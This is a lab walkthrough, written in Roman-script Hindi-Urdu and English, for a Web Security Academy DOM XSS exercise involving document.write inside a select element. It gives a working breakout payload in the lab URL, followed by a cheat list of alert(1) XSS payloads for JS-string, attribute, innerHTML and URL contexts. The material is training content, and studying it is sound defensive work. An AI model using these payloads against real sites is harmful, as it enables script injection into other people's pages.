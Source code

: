 # DOM XSS in document.write sink using source location.search inside a select element

### ✅ Step-by-Step (No Burp Needed)

Sub sy pehly koi product open karo

Lab URL ko open karo

Example:

https://your-lab-id.web-security-academy.net/product?productId=1

### ✏️ Step 2: Payload add karo in URL:
Paste this at the end:

```&storeId="></select><img src=1 onerror=alert(1)>```

So full URL ho jaayega:

```https://your-lab-id.web-security-academy.net/product?productId=1&storeId="></select><img src=1 onerror=alert(1)>```

🔍 Kya ho raha hai yahan?
```storeId=">``` → tumne <option> ka value```="...">``` break kar diya

```</select>``` → puri select list ko band kar diya

```<img src=1 onerror=alert(1)>``` → image load nahi hogi, onerror fire karega

Result: ✅ alert(1) chalayga = Lab Solved

**🧠 Why ```<script>alert(1)</script>``` fail hua tha?**

- ```<script>``` tag ko browser select tag ke andar allow nahi karta
- Isliye ```<script>``` HTML structure ke mutabiq reject ho gaya
- Lekin ```<img onerror>``` attribute-based XSS hai, aur woh kaam karta hai DOM mein

---

### ⚡ Bonus Tip:
DOM-based XSS mein context analysis bohot zaroori hoti hai:

Context = Working Payload

- Inside: **JS string**

  Context:```' - alert(1) - '```
  
- Inside: **HTML attribute**

  Context: ```" onmouseover=alert(1) "```
  
- Inside: **innerHTML**

  Context: ```<img src=1 onerror=alert(1)>```
  
- Inside: **URL**

  Context: ```javascript:alert(1) (in href)```


